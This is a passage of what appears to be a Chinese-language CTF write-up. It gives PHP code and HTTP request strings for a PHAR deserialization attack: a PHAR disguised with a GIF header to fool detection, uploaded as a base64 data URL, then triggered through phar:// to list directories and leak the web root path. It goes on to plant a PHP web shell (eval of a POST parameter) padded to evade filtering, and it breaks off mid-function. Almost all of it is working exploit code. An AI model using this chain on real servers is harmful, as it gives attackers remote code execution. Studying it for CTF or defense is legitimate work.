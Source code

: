 ```php
<?php

class dir{
    public $userdir;
    public $url;
    public $filename;
}

function TransferPhar($file){
    $raw = base64_encode(file_get_contents($file));
    echo "action=upload&filename=phar.txt&url=data:image/png;base64,".$raw;
}

$d = new dir();
$d->userdir = new dir();
$d->userdir->userdir = "../";
$phar = new Phar("dir.phar");
$phar->startBuffering();
$phar->setStub("GIF89A"."__HALT_COMPILER();"); //设置stub，增加gif文件头用以欺骗检测
$phar->setMetadata($d); //将自定义meta-data存入manifest
$phar->addFromString("test.jpg", "test"); //添加要压缩的文件
$phar->stopBuffering();

TransferPhar('./dir.phar');
?>
```

然后采用 `data:image/png;base64,...` 

```
action=upload&filename=phar.txt&url=data:image/png;base64,R0lGODlBX19IQUxUX0NPTVBJTEVSKCk7ID8+DQqyAAAAAQAAABEAAAABAAAAAAB8AAAATzozOiJkaXIiOjM6e3M6NzoidXNlcmRpciI7TzozOiJkaXIiOjM6e3M6NzoidXNlcmRpciI7czozOiIuLi8iO3M6MzoidXJsIjtOO3M6ODoiZmlsZW5hbWUiO047fXM6MzoidXJsIjtOO3M6ODoiZmlsZW5hbWUiO047fQgAAAB0ZXN0LmpwZwQAAADsHHRgBAAAAAx+f9i2AQAAAAAAAHRlc3Q+cvt5vPBx7JkuiBtXr4iWjSUwJwIAAABHQk1C
```

然后解析读取目录

```
action=upload&filename=&url=phar://upload/d99081fe929b750e0557f85e6499103f/phar.txt
```

读到目录, 获得绝对路径

```
/var/www/html/e6be5b6def555465/upload/d99081fe929b750e0557f85e6499103f/
```

写入shell

```php
<?php

class dir{
    public $userdir;
    public $url;
    public $filename;

    public function __construct(){
        $this->filename = '/var/www/html/e6be5b6def555465/upload/d99081fe929b750e0557f85e6499103f/ricky';
        $this->userdir = 'zzzzzzzzz<?php eval($_POST["cmd"]); ?>zzzzzzzzzzz';  # 防止被读取到过滤字符
        $this->url = '1';
    }
}

function TransferPhar($file){
    $raw = base64_encode(file_get_contents($file));
```